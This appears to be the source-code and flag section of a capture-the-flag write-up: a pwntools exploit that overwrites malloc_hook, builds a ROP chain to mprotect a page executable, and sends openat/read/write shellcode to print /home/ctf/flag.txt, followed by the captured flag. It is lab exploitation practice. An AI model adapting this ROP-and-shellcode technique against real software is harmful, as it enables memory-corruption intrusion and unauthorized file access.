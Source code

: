 ```py
stackControl = stackLeak - 0x70

# io.info("controlling stack: " + hex(stackControl))

io.recvuntil("Pointer: ")
io.sendline(str(mallocHook))
io.recvuntil("Content: ")
io.send(p64(symKill))

io.recvuntil('exit\n')
io.send('1')

io.recvuntil('Size: ')
io.send('8')

io.recvuntil("Data: ")
io.send('G')


libc.address = libcBase
rop = ROP(libc)

writePage = binBase + (0x202100) // 4096 * 4096

rop.mprotect(writePage, 4096, 7)
rop.read(0, writePage, 0x1000)
rop.raw(writePage)
raw_rop = rop.chain()
raw_rop = list(funcy.chunks(8,raw_rop))


string_addr = writePage + 0x300

shellcode = asm(shellcraft.read(0, string_addr, 100))
shellcode += asm(shellcraft.openat(0,string_addr,0))
shellcode += asm(shellcraft.read('rax',string_addr,100))
shellcode += asm(shellcraft.write(1, string_addr, 100))

# io.interactive()

ropchain = raw_rop

rop_offset = 0
for i in ropchain:
    i = u64(i)
    add_rop(i, rop_offset)
    rop_offset += 1

io.recvuntil("exit\n")
io.sendline(b'3')
sleep(1)
io.send(shellcode)
sleep(1)
io.send('/home/ctf/flag.txt')
io.interactive()
```

## Flag

`flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}`


